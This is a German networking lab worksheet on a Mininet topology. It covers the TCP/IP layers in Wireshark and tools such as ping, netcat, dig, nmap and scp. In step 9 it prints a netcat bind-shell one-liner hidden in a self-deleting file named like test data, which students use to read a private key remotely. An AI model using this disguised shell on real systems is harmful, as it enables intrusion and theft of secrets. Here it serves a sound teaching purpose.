

# 01 · Netzwerkgrundlagen & Tools

[:material-file-pdf-box: Als PDF herunterladen](../../pdf/01-netzwerkgrundlagen-tools.pdf){ .md-button }


*Der Desktop direkt nach dem ersten Login – das Terminal startet ihr über das Symbol "Terminal" am linken Rand, abmelden könnt ihr euch oben rechts.*

## Lernziele

- Das TCP/IP-Schichtenmodell nicht nur benennen, sondern in echtem, mit
  Wireshark aufgezeichnetem Verkehr wiedererkennen (Verbindungs-, Netzwerk-,
  Transport- und Anwendungsschicht).
- Grundlegende Netzwerkwerkzeuge sicher anwenden: `ping`, `netcat`, `dig`,
  `curl`, `whois`, `nmap`, `scp`, `netstat`.
- Den Unterschied zwischen numerischer IP-Adresse und Namensauflösung (DNS)
  sowie zwischen Anwendungsprotokoll (HTTP) und Dienstprotokoll (DNS, DHCP)
  einordnen können.
- Verschlüsselte und unverschlüsselte Kommunikation im Wireshark-Mitschnitt
  unterscheiden (Klartext-Netcat/HTTP vs. SSH/SCP/HTTPS) und die Grenzen von
  Verschlüsselung benennen (Metadaten bleiben sichtbar, auch wenn der Inhalt
  es nicht ist).
- Einen fehlerhaften TLS-Zertifikat-Zustand im Browser erkennen und
  begründen können, statt ihn wegzuklicken.
- Nachvollziehen, warum in einer gerouteten Topologie nicht jeder Rechner
  jeden anderen direkt erreicht (asymmetrisches Routing).

## Aufgaben

### Teil 1 – Das TCP/IP-Schichtenmodell in echtem Verkehr (außerhalb von Mininet)

Dieser erste Teil läuft **nicht** in der Mininet-Emulation, sondern direkt auf
eurem Desktop, um reale Kommunikation ins Internet zu beobachten, bevor wir
uns die kontrollierte, emulierte Topologie von `topo01` ansehen.

!!! note "Korrektur gegenüber dem Originaldokument"
    Das Original verweist auf das Öffnen einer "Zutty-Session" für diesen
    Schritt. Zutty war ein Terminalprogramm einer älteren Laborumgebung; im
    aktuellen Desktop startet ihr ein Terminal stattdessen über das
    Standard-Terminal-Icon (`xfce4-terminal`), siehe
    [Desktop-/Mininet-Umgebung](../reference/umgebung.md). Das betrifft nur
    das *Öffnen eines Terminalfensters auf dem Desktop* – der später in
    diesem Aufgabenblatt verwendete Mininet-Befehl `mininet> xterm h1` bleibt
    davon unberührt und funktioniert weiterhin unverändert (siehe Teil 2).

1. Öffnet ein Terminal auf dem Desktop und startet Wireshark mit erhöhten
    Rechten, damit alle Interfaces sichtbar sind:

    ```bash
    sudo wireshark
    ```

    Startet die Aufzeichnung auf **allen** Interfaces (ihr braucht für diesen
    Teil keine Mininet-Topologie).

2. Ermittelt in einem zweiten Terminal die IP-Adresse von `becke.net`:

    ```bash
    nslookup becke.net
    ```

    Merkt euch die ausgegebene IPv4-Adresse – ihr braucht sie gleich für den
    Wireshark-Filter.

3. Erzeugt Verkehr zu dieser Adresse:

    ```bash
    curl https://becke.net
    ```

4. Filtert in Wireshark auf genau diesen Verkehr, damit ihr nicht im
    restlichen Hintergrundrauschen des Betriebssystems sucht:

    ```text
    ip.addr == <eure ermittelte IP-Adresse>
    ```

5. Wählt eines der TCP-Pakete dieser Kommunikation aus und identifiziert im
    mittleren Wireshark-Fensterbereich alle vier Schichten der TCP/IP-Suite
    und ihre jeweiligen Protokolleinheiten:

     - **Anwendungsschicht:** HTTP (bzw. TLS-Record bei HTTPS)
     - **Transportschicht:** TCP-Segment (Ports, Sequenznummern, Flags)
     - **Netzwerkschicht:** IP-Header (IPv4 oder IPv6, Quell-/Zieladresse)
     - **Verbindungsschicht:** Ethernet-Header (MAC-Adressen)

6. Wiederholt das Experiment lokal, ohne das Netz zu verlassen:

    ```bash
    ping 127.0.0.1
    ```

    Filtert in Wireshark auf `icmp` und identifiziert erneut die vier
    Schichten. Was fällt bei der Verbindungsschicht (Schicht 1/2) im
    Vergleich zu den vorherigen, "echten" Paketen auf? (Stichwort: Loopback
    hat keine reale Ethernet-Übertragung, entsprechend fehlen bzw. unterscheiden
    sich die Link-Layer-Header.)

!!! tip "Fortschritt festhalten (optional)"
    Diesen Teil geschafft? Optional fuer die Admin-Uebersicht vermerken
    (rein lokal, keine Netzwerkverbindung):

    ```bash
    ~/rn-practice/mark-done.sh 01 teil1
    ```

!!! example "Vertiefung (optional): Euer Netzwerktechniker-Notizbuch"
    Anders als in einem klassischen Rechnerpool bleibt euer
    Home-Verzeichnis `~/rn-practice` über Login-Sitzungen hinweg erhalten,
    auch wenn der Container zwischenzeitlich neu erzeugt wird (siehe
    [Desktop-/Mininet-Umgebung](../reference/umgebung.md)). Legt euch dort
    schon jetzt eine eigene Datei an, z. B. `~/rn-practice/notizbuch.md`,
    und tragt ab diesem Aufgabenblatt die Befehle und Wireshark-Filter ein,
    die ihr euch beim nächsten Mal nicht neu erarbeiten wollt. Nach sieben
    Aufgabenblättern habt ihr damit eine selbst geschriebene
    Kommandozeilen-Referenz, zugeschnitten auf eure eigenen Stolperfallen –
    das funktioniert nur, weil euer Verzeichnis wirklich persistent ist und
    nicht wie in einem Pool-Rechner beim Abmelden verschwindet.


### Teil 2 – Werkzeuge in der emulierten Topologie `topo01`

Ab hier arbeitet ihr in der Mininet-Emulation. Die Topologie `topo01` besteht
aus zwei Endgeräten `h1` und `h2`, zwei Routern `r1`/`r2` dazwischen sowie
einem NAT-Uplink ins echte Internet.

1. **Netz starten.** Wechselt in das Topologie-Verzeichnis und startet die
    Emulation:

    ```bash
    cd ~/rn-practice/topo01
    ./start-topo01.sh
    ```

    Das Skript ruft zuerst `getIntWithIntenet.sh` auf (ermittelt das
    Netzwerkinterface mit Internetzugang für den NAT-Uplink) und startet
    danach `topo01.py`. In einigen Installationen werdet ihr nach dem
    `sudo`-Passwort (`mininet`) gefragt.

    !!! warning "Reihenfolge beachten"
        Ruft `topo01.py` niemals direkt auf, ohne vorher `getIntWithIntenet.sh`
        laufen zu lassen (das macht `start-topo01.sh` automatisch für euch).
        Details dazu im Abschnitt [Potenzielle Herausforderungen](#potenzielle-herausforderungen)
        unten.

    Nach dem Start öffnen sich automatisch zwei Terminalfenster – eines für
    `h1`, eines für `h2` (Mininet startet diese selbst über seine interne
    `makeTerm()`-Funktion, ihr müsst dafür nichts extra eingeben). Für die
    Router `r1`/`r2` oder falls ihr eines der beiden Fenster versehentlich
    schließt, öffnet ihr auf der Mininet-Konsole ein weiteres Terminal mit:

    ```text
    mininet> xterm <node>
    ```

    z. B. `mininet> xterm r1`. Dieser Befehl bleibt unverändert Teil des
    dokumentierten Mininet-Workflows und funktioniert in der aktuellen
    Umgebung weiterhin genauso wie beschrieben.

    !!! note "Playwright-Screenshot-Referenz"
        Für die Verifikation, dass sich nach `./start-topo01.sh` bzw. nach
        `mininet> xterm <node>` tatsächlich ein Terminalfenster für den Knoten
        öffnet, eignet sich ein **Fenster-Screenshot** (siehe
        `tests/e2e/specs/screenshots.spec.ts`, Test "Fenster-Screenshot:
        Standardterminal ist offen") besser als ein Zeilen-Screenshot: hier
        geht es um den sichtbaren UI-Zustand (ein neues Fenster ist da), nicht
        um eine einzelne Textzeile.

    
    *Die von Mininet automatisch geöffneten Knoten-Terminals sind technisch
    `xfce4-terminal`-Fenster (nicht `xterm`), siehe Hinweis oben. Der
    `pingall`-Befehl auf der Mininet-Konsole zeigt hier live die erwartete
    75-%-Verlustrate zwischen `h1` und `h2` – das ist die in
    [Potenzielle Herausforderungen](#potenzielle-herausforderungen)
    beschriebene, absichtliche asymmetrische Routing-Topologie.*

2. **Konnektivität mit Ping prüfen.** Öffnet das Terminal für `h1` und führt
    nacheinander aus:

    ```bash
    ping -c 4 10.0.6.2        # Ping mit numerischer IPv4-Adresse (h2)
    ping -c 4 h2              # Ping mit Namen statt IP
    ping -c 4 10.0.5.1        # Ping an ein anderes System im lokalen Segment
    ping -c 4 1.1.1.1         # Ping ins Internet (numerisch) - siehe unten!
    ping -c 4 one.one.one.one # Ping ins Internet mit Namen (dasselbe Ziel)
    ```

    Notiert euch die Ausgaben (RTT, TTL) der **lokalen** Ziele und vergleicht
    sie miteinander: Was fällt euch auf, und wie erklärt ihr die Unterschiede?

    Wechselt danach zum Terminal von `h2` und wiederholt das Experiment aus
    dessen Sicht:

    ```bash
    ping -c 4 10.0.1.1
    ping -c 4 h1
    ping -c 4 1.1.1.1
    ```

    Vergleicht RTT und TTL der lokalen Ziele zwischen `h1` und `h2`. Warum sind
    sie unterschiedlich? Was sagt euch das über die Anzahl der Zwischenstationen
    (Hops)?

    !!! warning "Die beiden Internet-Pings schlagen fehl – und das ist die Aufgabe"
        `ping 1.1.1.1` und `ping one.one.one.one` liefern **100 % Paketverlust**.
        Das ist **kein Fehler eures Containers** und auch keine fehlende
        Internet-Anbindung, sondern eine **Filterregel auf dem Weg nach
        draußen**. Weist das selbst nach, statt es zu glauben:

        ```bash
        getent hosts one.one.one.one       # loest der Name auf?
        nc -z -w 3 1.1.1.1 443             # geht eine TCP-Verbindung durch?
        echo $?                            # 0 = Verbindung stand
        traceroute -n -m 6 1.1.1.1         # wo endet der Weg?
        ```

        **Fragen, die ihr aus euren eigenen Ausgaben beantwortet:**

        1. Der Name löst auf, und die TCP-Verbindung auf Port 443 kommt
           zustande – welche Schicht des Stapels ist also **nicht** das Problem?
        2. `ping` nutzt ICMP, `nc` nutzt TCP. Beide laufen über IP. Was genau
           wird demnach gefiltert, und auf welcher Schicht sitzt der Filter?
        3. `traceroute` zeigt euch die letzte antwortende Station vor der
           Stille. Liegt der Filter **in eurem Container**, im **Hostnetz** oder
           **weiter draußen**? Begründet mit der Hop-Nummer.
        4. Warum ist "kein Ping-Echo" ein **schlechter** Beweis dafür, dass ein
           Rechner nicht erreichbar ist? Nennt zwei Gründe.

        Diese Asymmetrie – ICMP gesperrt, TCP erlaubt – ist in Unternehmens- und
        Hochschulnetzen der Normalfall, nicht die Ausnahme. Wer sie kennt,
        verschwendet bei einer Störungssuche keine Zeit mit dem falschen
        Werkzeug.

        *Am 2026-09-24 in dieser Umgebung gemessen: `1.1.1.1`, `8.8.8.8` und
        `9.9.9.9` jeweils 100 % Verlust, `1.1.1.1:443` per TCP erreichbar,
        `traceroute` endet nach der zweiten Station.*

    !!! warning "h1 ↔ h2 direkt: kein Ping möglich"
        Ein direkter `ping` zwischen `h1` und `h2` schlägt in dieser Topologie
        fehl bzw. liefert Paketverlust. Das ist **kein Fehler der Umgebung**,
        sondern Absicht: `h1` und `h2` liegen in unterschiedlichen Subnetzen
        und sind nur über die Router `r1`/`r2` mit asymmetrischem Routing
        verbunden. Genau das ist die Beobachtung, die die nächste Teilaufgabe
        von euch einfordert – siehe auch
        [Potenzielle Herausforderungen](#potenzielle-herausforderungen).

3. **Ping mit Wireshark beobachten.** Öffnet auf `h2` Wireshark im
    Hintergrund und wählt das Interface `h2-eth0` aus:

    ```bash
    wireshark &
    ```

    Wechselt zum Terminal von `h1` und sendet einen einzelnen Ping:

    ```bash
    ping -c 1 h2
    ```

    
    *Echter Mitschnitt auf `h2-eth0`, während `h1` per `ping` Verkehr zu `h2`
    erzeugt. Der Detailbereich zeigt genau die in Teil 1 gesuchten Schichten:
    Ethernet II (Verbindungsschicht), Internet Protocol Version 4
    (Netzwerkschicht) und das ICMP-Paket selbst.*

    Welche Protokolle erscheinen in der Spalte "Protocol"? Wiederholt den
    Ping noch zwei weitere Male (`ping -c 1 h2`) – welche Pakettypen
    wiederholen sich, welche nicht? Führt anschließend `ping -c 1 10.0.2.3`
    aus (eine nicht existierende Adresse) und beobachtet den Unterschied.
    Schließt danach das Wireshark-Fenster von `h2`, startet Wireshark
    stattdessen auf `h1` (Interface `h1-eth0`, nicht vergessen: `wireshark &`
    mit `&`, damit das Terminal weiter benutzbar bleibt) und wiederholt
    `ping -c 1 10.0.2.3`. Vergleicht, was auf beiden Seiten sichtbar ist, und
    formuliert eine These, warum sich die Beobachtung unterscheidet.

4. **Kommunikation mit Netcat herstellen und mit Wireshark beobachten.**
    Startet auf `h2` (im Verzeichnis `~/rn-practice/topo01`) den vorbereiteten
    UDP-Netcat-Server:

    ```bash
    ./startUDPServerNetcat.sh
    ```

    Der Inhalt des Skripts (`cat startUDPServerNetcat.sh`) zeigt euch, dass es
    letztlich nur `netcat -ul 8080` aufruft – ein UDP-Listener auf Port 8080.
    Wechselt zu `h1` und verbindet euch:

    ```bash
    netcat -u h2 8080
    hallo
    ```

    Markiert in Wireshark (auf `h2`, Interface `h2-eth0`) das letzte
    UDP-Paket. Im unteren Fensterbereich ("Packet Bytes") seht ihr die
    Nutzdaten hexadezimal und in ASCII – euer "hallo" sollte dort auftauchen.
    Prüft, wie viele Bytes die Nutzdaten tatsächlich belegen und warum
    (Stichwort ASCII-Kodierung, ein Zeichen = ein Byte).

5. **DNS-Auflösung mit Dig.** Auf `h1` läuft ein leichtgewichtiger
    DNS-Forwarder/DHCP-Server (`dnsmasq`). Führt aus:

    ```bash
    dig bundesregierung.de
    ```

    und sucht in der `ANSWER SECTION` nach der aufgelösten IPv4-Adresse.

6. **HTTP/REST mit Curl gegen eine externe API, und der gleiche Dienst im
    Browser.** Fragt mit Curl die Geolocation-API von ip-api.com ab (ersetzt
    die Beispieladresse durch die zuvor per `dig` ermittelte):

    ```bash
    curl http://ip-api.com/json/<ermittelte-IP-Adresse>
    ```

    Vergleicht das Ergebnis mit dem Aufruf derselben Abfrage im Browser unter
    `https://ip-api.com/#<ermittelte-IP-Adresse>`. Welche Darstellung eignet
    sich für die automatische Weiterverarbeitung durch ein Programm, welche
    für einen Menschen?

    !!! note "Korrektur gegenüber dem Originaldokument"
        Das Originaldokument bezeichnet ip-api.com als von "Klaxoon SAS"
        betrieben. Das ist unzutreffend: Laut dem offiziellen Impressum/den
        Nutzungsbedingungen von ip-api.com wird der Dienst von **Artia
        International S.R.L.** (Bukarest, Rumänien) betrieben. Klaxoon ist ein
        unabhängiges, in Frankreich ansässiges Unternehmen für
        Kollaborations-Software und hat mit ip-api.com nichts zu tun.

7. **WHOIS-Abfrage.** Auf `h1`:

    ```bash
    whois mozilla.com
    ```

    Achtet auf Felder wie Street/City. Wiederholt die Abfrage mit
    `bundesregierung.de` und vergleicht: Für `.de`-Domains ist die DENIC
    zuständig, und seit der DSGVO sind personenbezogene WHOIS-Daten für
    `.de`-Domains nicht mehr standardmäßig öffentlich einsehbar.

8. **Netzwerkscan mit Nmap.** Auf `h2`:

    ```bash
    nmap -sn 10.0.4.0/24
    ```

    Prüft, welche Hosts erkannt werden. Versucht anschließend, das
    Betriebssystem eines gefundenen Hosts zu identifizieren:

    ```bash
    nmap -O <gefundene-IP>
    ```

    Findet heraus, auf welchem Host der Dienst OpenSSH erreichbar ist, und
    prüft mit `searchsploit`, ob es bekannte Schwachstellen gibt:

    ```bash
    searchsploit OpenSSH
    ```

    Port-Scans dienen hier ausschließlich der eigenen, isolierten
    Mininet-Umgebung. Gegen fremde Systeme ohne Zustimmung sind sie in
    Deutschland rechtlich heikel und teils strafbar.

9. **Sichere Übertragung mit SCP, und was trotz Verschlüsselung sichtbar
    bleibt.** Startet auf `h2` Wireshark (Interface `h2-eth0`). Startet auf
    `h1` den SSH-Server:

    ```bash
    /usr/sbin/sshd -D -f sshd.conf
    ```

    Kopiert anschließend von `h2` aus eine Datei von `h1`:

    ```bash
    scp mininet@10.0.1.2:~/rn-practice/test30M.txt ./
    ```

    !!! note "Korrektur gegenüber dem Originaldokument"
        Das Originaldokument verwendet für den Quellpfad uneinheitlich `~`,
        `/home/mininet/rn-practice/topo01` und `/headless/rn-practice/`. Der
        tatsächliche, in diesem Repository vorhandene Pfad ist konsequent `~`
        statt der abweichenden Pfadangaben aus dem Original – `test30M.txt`
        selbst liegt dabei direkt unter `~/rn-practice/` (Wurzel des
        vendorierten Verzeichnisses), NICHT unter `~/rn-practice/topo01/`
        (per Repository-Struktur verifiziert, siehe
        `mininet-labs/rn-practice/test30M.txt`).

    !!! warning "test30M.txt enthält eine echte Reverse-Shell – das ist Absicht"
        `test30M.txt` heißt zwar wie eine ~30-MB-Testdatei, enthält aber
        tatsächlich nur einen kurzen Netcat-Bind-Shell-Einzeiler
        (`mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc -l 1234 >/tmp/f`) plus
        Selbstlöschung, kommentiert als "Dieses ist ein geheimes Script". Eine
        frühere Fassung dieser Anleitung stufte das fälschlich als
        versehentlich eingecheckten Backdoor ein und ersetzte den Inhalt durch
        harmlosen Fülltext – das war ein Fehler und wurde zurückgenommen. Es
        handelt sich um eine **bewusst designte Sicherheitslektion**:
        Verschlüsselung der Übertragung (SCP/SSH) schützt nur den
        Transportweg, nicht die Vertrauensentscheidung über den Inhalt am
        Endpunkt.

    Beobachtet in Wireshark den TCP-Drei-Wege-Handshake, die
    SSH-Verhandlungsphase und danach durchgehend verschlüsselten Verkehr –
    der Dateiinhalt selbst ist nicht einsehbar. Schaut euch die kopierte
    Datei lokal an:

    ```bash
    cat test30M.txt
    ```

    Darin findet sich ein netcat-Aufruf. Führt ihn probeweise aus, um eine
    (in dieser isolierten Übung harmlose) Reverse-Shell zu demonstrieren:

    ```bash
    sh ./test30M.txt
    ```

    Nach der Ausführung ist die Datei gelöscht und scheinbar nichts
    Wesentliches geschehen. Tatsächlich hat sich aber eine Reverse-Shell
    geöffnet. Verbindet euch von `h1` aus auf die geöffnete Shell und prüft,
    auf welchem Host ihr tatsächlich Befehle ausführt:

    ```bash
    netcat 10.0.6.2 1234
    ifconfig
    ```

    Erscheint ein Interface `h2-eth0`, habt ihr Zugriff auf `h2` – obwohl ihr
    den Befehl von `h1` aus abgesetzt habt. Aktiviert die Wireshark-Aufnahme
    auf `h2-eth0` erneut und schaut euch über die Reverse-Shell eine weitere
    Datei an:

    ```bash
    cat key.pem
    ```

    Über "Follow → TCP Stream" lässt sich die komplette, unverschlüsselte
    Kommunikation in Wireshark rekonstruieren – anders als bei SCP/SSH war
    dieser Kanal zu keinem Zeitpunkt verschlüsselt. Reflektiert Vor- und
    Nachteile aus Sicht von Nutzer:in, Administrator:in und
    Sicherheitsbehörden.

    Prüft abschließend auf `h2`, welche Prozesse Netzwerkports geöffnet
    halten, und beendet nicht erkannte Prozesse:

    ```bash
    netstat -tulnp
    kill -9 <PID>
    ```

10. **Verschlüsselter Web-Verkehr und ein absichtlich kaputtes
    Zertifikat.** Startet auf `h1` einen einfachen HTTP-Server:

    ```bash
    python3 startHTTPServer.py &
    ```

    Prüft mit `netstat`, dass Port 80 nun belegt ist. Startet auf `h2`
    Wireshark (Interface `h2-eth0`) und setzt den Anzeigefilter:

    ```text
    ip.addr == 10.0.1.2 && tcp
    ```

    Startet den Browser auf `h2`:

    ```bash
    ./runSimpleBrowser.sh
    ```

    und ruft `http://h1` auf. Vergleicht in Wireshark ("Follow → TCP
    Stream") den HTTP/HTML-Inhalt mit der im Browser sichtbaren Seite bzw.
    mit "View Page Source".

    Beendet den HTTP-Server auf `h1` (++ctrl+c++) und startet stattdessen den
    HTTPS-Server:

    ```bash
    python3 startHTTPsServer.py
    ```

    Ruft auf `h2` `https://h1` auf und beobachtet erneut in Wireshark, dass
    der Inhalt diesmal nicht mehr im Klartext sichtbar ist.

    !!! warning "Absichtlich fehlerhaftes Zertifikat"
        Der Browser wird eine Zertifikatswarnung anzeigen. Das ist
        **beabsichtigt**: `cert.pem`/`key.pem` in `topo01` sind ein
        absichtlich unsinniges, selbstsigniertes Test-Zertifikat
        (`CN=noway`, Organisation "Not your buisness", Abteilung
        "bad company") – kein Konfigurationsfehler der Umgebung. Das
        eigentliche Lernziel dieses Schritts ist, als Nutzer:in *ohne*
        IT-Hintergrund zu erkennen und zu benennen, was an diesem Zertifikat
        nicht stimmt (z. B. unpassender/unbekannter Aussteller, Common Name
        ohne Bezug zum aufgerufenen Namen `h1`).

    !!! note "Playwright-Screenshot-Referenz"
        Für den Beleg der `dig`/`nmap`-Ausgaben bzw. der Zertifikatswarnung
        im Browser eignet sich dagegen ein **Zeilen-/Locator-Screenshot**
        (siehe `tests/e2e/specs/screenshots.spec.ts`, Test "Zeilen-Screenshot")
        besser als ein Fenster-Screenshot: es geht um den Inhalt einer
        konkreten Ausgabezeile bzw. eines Warnhinweis-Elements, nicht um den
        gesamten sichtbaren Fensterzustand.

11. **Netz beenden.** Auf der Mininet-Konsole:

    ```text
    mininet> quit
    ```

!!! tip "Fortschritt festhalten (optional)"
    Diesen Teil geschafft? Optional fuer die Admin-Uebersicht vermerken
    (rein lokal, keine Netzwerkverbindung):

    ```bash
    ~/rn-practice/mark-done.sh 01 teil2
    ```

!!! example "Vertiefung (optional): TLS-ClientHello von curl und Firefox vergleichen"
    Schritt 10 hat gezeigt, dass der Browser bei einem fehlerhaften
    Zertifikat warnt. Geht einen Schritt tiefer und vergleicht, *wie*
    unterschiedliche Clients überhaupt eine TLS-Verbindung anbahnen:
    Startet auf `h1` erneut `python3 startHTTPsServer.py` und auf `h2`
    eine Wireshark-Aufzeichnung auf `h2-eth0`. Ruft `https://h1` einmal
    mit `curl -k https://h1` und einmal über `./runSimpleBrowser.sh` auf.
    Filtert in Wireshark auf `tls.handshake.type == 1` (Client Hello) und
    vergleicht bei beiden Mitschnitten die angebotene Liste der
    Cipher-Suiten sowie die TLS-Erweiterungen. Diese Unterschiede sind kein
    Zufall, sondern der Fingerabdruck der jeweiligen TLS-Bibliothek – genau
    das Prinzip, auf dem Verfahren wie JA3-Fingerprinting beruhen (siehe
    [Aufgabenblatt 06, Teil 5](06-advanced-covert-channels.md)).


### Teil 3 – Subnetz-Zugehörigkeit selbst berechnen, bevor ihr sie prüft (`topo01`)

Aufgabe 2 in Teil 2 hat euch bereits auffallen lassen, dass ein Ping von `h1`
zu `h2` nicht direkt funktioniert, während Pings zu anderen Zielen sehr wohl
ankommen. Statt das nur zu beobachten, berechnet jetzt selbst, *warum* das so
ist – bevor ihr es mit einem Befehl nachprüft.

`topo01` vergibt euch bereits bekannte Adressen: `h1` hat **zwei** Interfaces,
`h1-eth0` mit `10.0.5.2/24` und `h1-eth1` mit `10.0.1.2/24`; `h2` hat ein
Interface `h2-eth0` mit `10.0.6.2/24`.

Bestimmt für jedes der folgenden Ziele – **auf Papier oder im Kopf, ohne
vorher `ip route` oder Ähnliches auszuführen** – ob es im selben Subnetz wie
der jeweilige Startpunkt liegt (Netzwerk- und Broadcast-Adresse aus der
`/24`-Maske berechnen genügt) oder ob eine Weiterleitung über einen Router
nötig ist:

| Startpunkt | Ziel | Gleiches Subnetz? | Begründung |
|---|---|---|---|
| `h1` (`10.0.5.2/24` auf `h1-eth0`) | `10.0.6.2` (`h2`) | ? | ? |
| `h1` (`10.0.5.2/24` auf `h1-eth0`) | `10.0.5.1` | ? | ? |
| `h1` (`10.0.1.2/24` auf `h1-eth1`) | `1.1.1.1` | ? | ? |
| `h2` (`10.0.6.2/24` auf `h2-eth0`) | `10.0.1.1` | ? | ? |

Prüft anschließend jede Zeile eurer Tabelle mit dem tatsächlichen
Weiterleitungsentscheid des Kernels – `ip route get` beantwortet euch pro
Ziel genau die Frage, die ihr gerade von Hand beantwortet habt:

```bash
h1$ ip route get 10.0.6.2
h1$ ip route get 10.0.5.1
h1$ ip route get 1.1.1.1
h2$ ip route get 10.0.1.1
```

**So lest ihr die Ausgabe:** Steht in der Zeile ein `via <IP>` vor dem
`dev <interface>`, wird das Paket über einen Router (die angegebene
Gateway-Adresse) weitergeleitet – das Ziel liegt in einem anderen Subnetz.
Fehlt `via` und steht nur `dev <interface>` da, ist das Ziel direkt über
dieses Interface erreichbar (gleiches Subnetz, Auflösung per ARP statt per
Routing).

!!! success "Real geprüft"
    Auf einem frisch gestarteten Container liefert `topo01` genau das aus
    der Adressierung berechenbare Bild: `ip route get 10.0.6.2` auf `h1`
    zeigt `via 10.0.1.1 dev h1-eth1` (anderes Subnetz, Route über `r1`),
    `ip route get 10.0.5.1` auf `h1` zeigt dagegen nur `dev h1-eth0` ohne
    `via` (`10.0.5.1` liegt im selben `/24` wie `h1-eth0`), ein Ziel
    außerhalb aller lokalen `/24`-Netze — geprüft mit einer öffentlichen
    Adresse — geht über die Default-Route `via 10.0.5.1 dev h1-eth0`
    (Internet-Ziel über den NAT-Uplink), und `ip route get 10.0.1.1` auf
    `h2` zeigt `via 10.0.6.1 dev h2-eth0`.

**Aufgabe:** Erklärt anhand eurer Tabelle, warum ein direkter Ping zwischen
`h1` und `h2` fehlschlägt bzw. Paketverlust zeigt (siehe die Warnung weiter
oben), obwohl beide Rechner Teil derselben Topologie sind – und warum das
kein Fehler, sondern eine direkte Folge der Subnetz-Struktur ist.

!!! tip "Fortschritt festhalten (optional)"
    Diesen Teil geschafft? Optional fuer die Admin-Uebersicht vermerken
    (rein lokal, keine Netzwerkverbindung):

    ```bash
    ~/rn-practice/mark-done.sh 01 teil3
    ```


## Potenzielle Herausforderungen

- **`getIntWithIntenet.sh` muss vor `topo01.py` laufen.** `topo01.py` liest
  beim Start eine Datei `interface.txt` ein, die Interface-Name und
  Gateway-Adresse für den NAT-Uplink enthält. Diese Datei wird von
  `getIntWithIntenet.sh` erzeugt. Wer `topo01.py` direkt aufruft (statt über
  `./start-topo01.sh`, das beide Schritte in der richtigen Reihenfolge
  ausführt), bekommt einen `FileNotFoundError` ohne hilfreiche
  Fehlermeldung, die auf die eigentliche Ursache hinweist.
- **`cert.pem`/`key.pem` sind absichtlich fehlerhaft.** Das Zertifikat trägt
  `CN=noway` und offensichtlich unsinnige Organisationsangaben. Das ist kein
  Bug, sondern das Lernziel von Aufgabe 10: einen Zertifikatsfehler als
  Laie erkennen und einordnen können.
- **`key.pem` ist passphrasengeschützt – bisher nirgends dokumentiert.** Real
  geprüft (2026-09-09): `python3 startHTTPsServer.py` fragt beim Laden von
  `key.pem` interaktiv nach einer PEM-Passphrase, bevor der Server überhaupt
  auf Port 443 lauscht (`openssl rsa -in key.pem -check` bestätigt dieselbe
  Abfrage direkt). Die Passphrase ist **`mininet`** (durch Ausprobieren
  verifiziert, `openssl rsa ... -passin pass:mininet` liefert `RSA key ok`).
  Ohne dieses Wissen bleibt Aufgabe 10 an dieser Stelle stecken. Siehe auch
  [Aufgabenblatt 07, Teil 3](07-http-rest-quic.md), das denselben Server
  nutzt und dort ebenfalls auf die Passphrase hinweist.
- **`h1` ↔ `h2` direkt: kein Ping möglich.** Die Topologie verbindet `h1`
  und `h2` nur indirekt über die Router `r1`/`r2` mit asymmetrischem
  Routing zwischen den beiden Subnetzen. Ein `pingall` in dieser Topologie
  zeigt planmäßig Paketverlust zwischen `h1` und `h2` – das ist Teil der
  Lernaufgabe (Frage 2 in diesem Aufgabenblatt), nicht ein Defekt der
  Umgebung oder des Environments. Das Verhalten ist auf einem echten
  Container nachgestellt und bestätigt worden.
- **Uneinheitliche Pfadangaben im Original.** Das Originaldokument mischt
  `~/rn-practice/topo01`, `/home/mininet/rn-practice/topo01` und
  `/headless/rn-practice/...`. In diesem Aufgabenblatt wird durchgehend
  `~/rn-practice/topo01` verwendet, der tatsächlich verifizierte Pfad in
  dieser Umgebung.
- **`mininet> xterm <node>` funktioniert weiterhin, ist aber technisch ein
  Shim.** Der Befehl bleibt für euch unverändert nutzbar, öffnet im
  Hintergrund aber `xfce4-terminal` statt eines echten `xterm`-Programms.
  Das ist für die Aufgaben irrelevant, kann aber verwirren, wenn ihr euch
  wundert, warum das geöffnete Fenster nicht wie ein klassisches
  X11-`xterm` aussieht.

## Quellen

- `mininet-labs/intro/01-Basis-Netzwerktools.tex`
- `mininet-labs/vertiefung/Labor-01-Schichtenmodelle.tex`
- `mininet-labs/rn-practice/topo01/`
